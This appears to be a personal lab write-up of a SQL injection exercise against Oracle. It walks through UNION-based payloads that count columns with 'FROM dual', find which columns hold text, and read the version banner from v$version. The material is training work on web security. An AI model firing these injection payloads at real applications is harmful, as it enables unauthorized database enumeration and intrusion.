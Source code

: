 # Oracle querying database type and version

#WRITEUP
#DATABASEENUM

The lab mentions it's an `UNION` attack so following the [[Methodology UNION attacks]] , intercept the request and insert the payload to find out the number of columns that the result set has.

	Note: I looked for a hint since the regular UNION payloads didn't work it turns out that in Oracle databases the SELECT keyword must have a table to select FROM, in this case I used the 'dual' built-in table.

#SQLiPAYLOAD 
```SQL
' UNION SELECT NULL,NULL FROM dual--
```

![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, querying the database type and version on Oracle/images/number of columns.png]]

The result set has two columns now find out which can hold string data.

![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, querying the database type and version on Oracle/images/string data.png]]

#SQLiPAYLOAD 
```SQL
' UNION SELECT 'a',NULL FROM dual--

' UNION SELECT NULL,'a' FROM dual--
```

Both columns can hold string data. Let's inject the payload to obtain the database banner.


![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, querying the database type and version on Oracle/images/solved.png]]

#SQLiPAYLOAD 
```SQL
' UNION SELECT banner,NULL FROM v$version--
```
